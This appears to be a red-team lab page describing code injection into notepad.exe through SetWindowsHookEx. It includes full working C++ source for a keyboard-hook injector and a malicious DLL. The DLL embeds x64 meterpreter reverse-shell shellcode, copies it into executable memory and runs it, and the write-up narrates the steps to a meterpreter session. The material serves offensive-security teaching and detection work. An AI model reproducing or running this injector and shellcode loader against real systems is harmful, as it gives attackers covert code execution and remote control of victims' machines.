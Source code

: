 # SetWindowHookEx Code Injection

Windows allow programs to install hooks to monitor various system events such as mouse clicks and keyboard key presses by using `SetWindowHookEx`.

In this lab `SetWindowHookEx` is used to inject a malicious DLL into notepad.exe, which then executes  meterpreter shellcode.

## Overview

The workflow of the technique is as follows:

1. Create a malicious DLL that exports one function, which when invoked, executes meterpreter shellcode
2. Create another program that loads the malicious binary by:
   1. Resolving address of the exported function
   2. Installing a keyboard hook. The hook is then pointed to the exported function
3. Notepad.exe is launched by the victim and a keypress is registered
4. Since keyboard events are hooked, notepad.exe loads in our malicious dll and invokes the exported function
5. Metepreter session is established on the attacking system

## Execution

Let's create a DLL with an export a function `spotlessExport` that executes meterpreter shellcode when invoked:

![](../../.gitbook/assets/annotation-2019-05-28-220920.png)

Compile the DLL and check if the export was successful. We can use `dumpbin.exe` to do this, but first we need to find it (if we have Visual Studio installed):

```csharp
cmd /c dir /s/b c:\dumpbin*
```

![](../../.gitbook/assets/annotation-2019-05-28-221427.png)

Then use it like so to dump the exported functions:

```
dumpbin.exe dllhook.dll /exports
```

Below shows the output of exported functions for `dllhook.dll` as presented by `CFF Explorer` (left) and dumpin:

![](../../.gitbook/assets/annotation-2019-05-28-221340.png)

## Demo

Below shows the technique in action:

* Process Explorer (top right) with notepad (bottom right) selected
* In the middle - the code that installs the hook to all threads that are in the same desktop as the calling thread
* Attacking system with multi-handler on the left - ready to catch the meterpreter
* Once the hook is installed and a key is pressed in when notepad is in focus, `dllhook.dll` is loaded into `notepad.exe` process and our malicious exported function `exportedSpotless` is executed, which in turn results in a meterpreter shell

![](../../.gitbook/assets/hookdll.gif)

## Code

Both `hooks.cpp` and `dllhook.cpp` are provided below:

{% tabs %}
{% tab title="hooks.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

int main()
{
	HMODULE library = LoadLibraryA("dllhook.dll");
	HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

	HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
	Sleep(10*1000);
	UnhookWindowsHookEx(hook);

	return 0;
}
```
{% endtab %}

{% tab title="dllhook.cpp" %}
```cpp
#include "stdafx.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
	case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) int spotlessExport() {
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-setwindowshookexa" %}

{% embed url="https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=vs-2019" %}
